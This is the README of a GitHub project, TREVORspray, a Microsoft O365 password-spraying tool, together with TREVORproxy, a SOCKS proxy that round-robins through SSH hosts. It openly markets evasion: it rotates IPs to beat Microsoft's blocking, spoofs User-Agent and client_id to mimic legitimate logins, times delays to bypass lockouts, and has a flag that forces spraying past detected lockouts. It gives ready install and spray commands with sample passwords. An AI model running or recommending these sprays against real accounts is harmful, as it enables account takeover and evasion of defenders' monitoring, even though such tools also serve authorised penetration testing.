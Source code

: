 ![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)

`#trevorforget`

# TREVORspray
TREVORspray is a featureful Microsoft Online sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) 

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

Microsoft is getting better and better about blocking password spraying attacks against O365.  **TREVORspray can solve this by proxying its requests through an unlimited number of `--ssh` hosts**.  No weird dependencies or cumbersome setup required - all you need is a cloud VM with port 22 open.

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard and showing me how heckin loud I was being :)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (remembers already-tried user/pass combos in `~/.trevorspray/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `~/.trevorspray/trevorspray.log`
- Saves valid usernames to `~/.trevorspray/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## Example: Perform recon against a domain (retrieves tenant information, autodiscover info, mx records, etc.)
```
$ trevorspray.py --recon evilcorp.com
```

## Example: Spray with 5-second delay between requests
```
$ trevorspray.py -e bob@evilcorp.com -p Fall2020! --delay 5
```

## Example: Spray and round-robin between 3 IPs (the current IP is used as well.)
```
$ trevorspray.py -e emails.txt -p Fall2020! --ssh root@1.2.3.4 root@4.3.2.1
```

## TREVORspray - Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] -e EMAILS [EMAILS ...] -p PASSWORDS [PASSWORDS ...] [-f] [-d DELAY] [-u URL] [-v] [-s SSH [SSH ...]] [-k KEY] [-b BASE_PORT] [-n]

Execute password sprays against O365, optionally proxying the traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  -u URL, --url URL     The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Show which proxy is being used for each request
  -s SSH [SSH ...], --ssh SSH [SSH ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -b BASE_PORT, --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
  -n, --no-current-ip   Don't spray from the current IP, only use SSH proxies
```

## Known Limitations:
- Untested on Windows


# TREVORproxy
TREVORproxy is a SOCKS proxy that round-robins requests through SSH hosts. Note that TREVORspray already has its own proxy feature (`--ssh`), so this is for use with curl, Burpsuite, etc.

## TREVORproxy - Help:
```
$ ./trevorproxy.py --help
usage: trevorproxy.py [-h] [-p PORT] [-l LISTEN_ADDRESS] [-v] [-k KEY] [--base-port BASE_PORT] ssh_hosts [ssh_hosts ...]

Spawns a SOCKS server which round-robins requests through the specified SSH hosts

positional arguments:
  ssh_hosts             Round-robin load-balance through these SSH hosts (user@host)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for SOCKS server to listen on (default: 1080)
  -l LISTEN_ADDRESS, --listen-address LISTEN_ADDRESS
                        Listen address for SOCKS server (default: 127.0.0.1)
  -v, --verbose         Print extra debugging info
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```